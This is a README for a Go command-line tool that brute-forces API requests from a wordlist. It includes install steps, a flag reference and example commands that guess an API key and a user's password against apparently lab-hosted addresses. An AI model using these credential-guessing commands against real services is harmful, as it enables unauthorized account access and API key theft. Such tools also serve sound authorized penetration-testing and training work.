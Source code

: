 # GO GM v1.0

GO GM is a tool used to brute-force API's request:

1. ... Brut force with a different payload (POST)
1. ... Easy to use
1. ... Use concurency
1. ... Work in command line
1. ... Faster that some random script in Python

## How to install it ?

```bash
    git clone https://github.com/gmorinn/go-hack && cd go-hack && make re &&
    ./go-gm {...flags}
```

## How to use it ?

```bash
-u, --url			    {URL_API} Url of the API
-t, --threads			{THREADS} Number of concurrent threads (default=3)
-w, --wordlist			{WORDLIST} Path to the wordlist
-m, --method			{METHOD} Method of the request. Default=POST
-p, --payload			{PAYLOAD} The attribute you want to modify. Example: -p email -w email.txt
-l, --limit			    {LIMIT} Stop the program when the number of request equals ${limit}
-gp, --general-payload	{GENERAL_PAYLOAD} The payload that does not change with each request. Exemple: -gp "{\"email\":\"guillaume@test.com\"}"
-r, --response			{RESPONSE} Corresponds to the response or message returned by the API. If the response of the request contains the response specified then the program stops. Example: -r "{"success":"true"}"
-n, --not			    {NOT} Stop the program when the request send a response different of the -r specified. Exemple: -r "INVALD API KEY" -n => The program stop when the response is different that "INVALID API KEY"
```

### NOTICE
- Only one url is taken into account.
- Only one attribute is possible in the payload for version 1.
- All flags are not mandatory, except -u && -w && (-r || -l)
- You can stop the program at any moment with CRTL + C

## Example

- Find the API Key when the response of the request is different from "invalid api key"
```bash
./go-gm -u http://10.10.79.77:8081/api/guillaume -p key -w keywordlist.txt -r "Invalid API Key" --not
```

-  Find the password of a user and when the response contains "{"success":"true"}"
```bash
 ./go-gm -u http://10.10.159.167:8081/sign -p password -w password.txt -m POST -r "{\"success\":\"true\"}" --general-payload "{\"email\":\"guillaume@test.com\"}"
 ```


 ![](img/brut.png)